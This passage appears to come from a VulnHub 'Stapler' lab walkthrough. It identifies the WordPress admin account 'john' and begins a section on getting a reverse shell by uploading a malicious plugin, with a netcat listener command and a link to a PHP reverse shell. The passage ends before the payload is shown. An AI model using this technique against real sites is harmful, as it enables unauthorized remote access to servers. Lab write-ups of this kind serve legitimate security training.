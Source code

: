 Among the users for whom we managed to get their passwords, only `john` has a different dashboard and seems to be the admin: 

![john wp-admin](/assets/img/vulnhub/linux/stapler/wp-admin.png)


## Reverse shell (uploading malicious plugin)

First and foremost, let's run a listener:

```bash
$ nc -lnvp 1234
```

We'll try to upload a [tiny PHP reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc) in WordPress plugins:
